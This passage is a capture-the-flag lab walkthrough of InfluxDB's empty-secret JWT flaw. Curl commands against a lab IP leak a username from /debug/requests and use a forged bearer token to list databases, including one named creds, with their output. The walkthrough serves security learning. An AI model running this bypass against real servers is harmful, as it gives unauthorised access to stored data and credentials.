 ### Query influxDB

Doing some online research I found this blog post by Komodo Consulting, which describes how that version of influxDB is insecure by default that allows using a JWT token with an empty secret to query the DB without presenting any credentials.

https://www.komodosec.com/post/when-all-else-fails-find-a-0-day

The first things we'll do is find a valid username.

```
└─$ curl  http://10.10.169.219:8086/debug/requests 
{
"o5yY****:127.0.0.1": {"writes":2,"queries":2}
}
```

We can see the user o5yY**** is currently executing requests against the DB. We carry on with the next step  described in the blog post and create a json web token without a secret, we also provide username and expiration timestamp:

![create json web token](sweettooth_static/create_jwt.png)

Using the token just created, we can now query influxDB.
We learn that the databases stored in the instance are creds, docker, tanks, mixer, _internal.

```
└─$ curl -G http://10.10.169.219:8086/query -H "Accept: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI4MTY1NDU2fQ.bpd61sWs9b0Ey3uLpY************************"  --data-urlencode "q=SHOW DATABASES"
{"results":[{"statement_id":0,"series":[{"name":"databases","columns":["name"],"values":[["creds"],["docker"],["tanks"],["mixer"],["_internal"]]}]}]}
```
